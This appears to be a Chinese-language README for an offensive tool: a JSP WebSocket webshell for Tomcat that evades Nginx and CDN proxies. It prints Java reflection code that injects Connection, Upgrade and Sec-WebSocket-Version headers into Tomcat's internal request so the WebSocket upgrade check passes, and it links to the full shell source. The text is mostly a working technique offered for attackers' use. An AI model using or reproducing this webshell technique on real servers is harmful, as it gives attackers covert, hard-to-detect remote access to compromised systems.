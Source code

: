 # 无需注入，可以绕过Nginx、CDN代理限制的 WebSocket jsp马

之前提到过可以向 WsServerContainer 容器内 添加ServerEndpointConfig 来注册WebSocket内存马，这样即有好处也有弊端，好处是内存马无落地文件，不好的地方是容易受限制无法使用。于是，我最近改写了下脚本的内容，直接取jsp内的request进行协议升级，从而不需要进行注册路径等操作，增加了HttpServletRequest的Header，使其可以在Nginx代理默认配置下使用

Nginx默认代理配置本身是不支持WebSocket协议的，需要修改 /etc/nginx/conf.d/nginx.conf，增加 proxy_set_header 内容，网上也可以搜到许多资料，其实就是增加了两个文件头，并未做其他处理。

那其实我们完全可以在Server端拦截request自己添加文件头来支持WebSocket

```java
    private void SetHeader(HttpServletRequest request, String key, String value){
        Class<? extends HttpServletRequest> requestClass = request.getClass();
        try {
            Field requestField = requestClass.getDeclaredField("request");
            requestField.setAccessible(true);
            Object requestObj = requestField.get(request);
            Field coyoteRequestField = requestObj.getClass().getDeclaredField("coyoteRequest");
            coyoteRequestField.setAccessible(true);
            Object coyoteRequestObj = coyoteRequestField.get(requestObj);
            Field headersField = coyoteRequestObj.getClass().getDeclaredField("headers");
            headersField.setAccessible(true);
            MimeHeaders headersObj = (MimeHeaders)headersField.get(coyoteRequestObj);
            headersObj.removeHeader(key);
            headersObj.addValue(key).setString(value);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    SetHeader(request,"Connection","upgrade");
    SetHeader(request,"Sec-WebSocket-Version","13");
    SetHeader(request,"Upgrade","websocket");
```

通过添加这三个文件头，Tomcat就可以通过后续的doUpgrade校验了

```java
if (!headerContainsToken(req, Constants.CONNECTION_HEADER_NAME,
        Constants.CONNECTION_HEADER_VALUE)) {
    resp.sendError(HttpServletResponse.SC_BAD_REQUEST);
    return;
}
if (!headerContainsToken(req, Constants.WS_VERSION_HEADER_NAME,
        Constants.WS_VERSION_HEADER_VALUE)) {
    resp.setStatus(426);
    resp.setHeader(Constants.WS_VERSION_HEADER_NAME,
            Constants.WS_VERSION_HEADER_VALUE);
    return;
}
key = req.getHeader(Constants.WS_KEY_HEADER_NAME);
if (key == null) {
    resp.sendError(HttpServletResponse.SC_BAD_REQUEST);
    return;
}
```

Tomcat 是通过org.apache.tomcat.websocket.server.UpgradeUtil.doUpgrade 来把http协议升级为WebSocket

那把需要的内容传入进去，即可完成jsp文件连接WebSocket的功能

UpgradeUtil.doUpgrade(container, request, response, configEndpoint, pathParams);

代码：[https://github.com/veo/wsMemShell/blob/main/BypassNginxCDN/wsNotAddEndpoint.jsp](https://github.com/veo/wsMemShell/blob/main/BypassNginxCDN/wsNotAddEndpoint.jsp)
